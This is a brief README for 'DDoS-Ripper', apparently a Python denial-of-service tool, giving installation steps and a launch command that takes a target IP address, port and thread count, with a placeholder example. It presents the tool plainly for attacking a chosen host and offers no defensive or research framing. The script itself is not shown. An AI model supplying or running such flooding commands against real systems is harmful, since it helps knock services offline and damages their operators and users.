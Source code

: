 # DDoS-Ripper

## Usage

To use the DRipper - install python and download DRipper.py and headers.txt 

Run with the following command:
`python3 DRipper.py -s [ip Address] -p [port] -t [threads]`

`example: python3 DRipper.py -s 0.00.00.00 -p -80 -t 135`
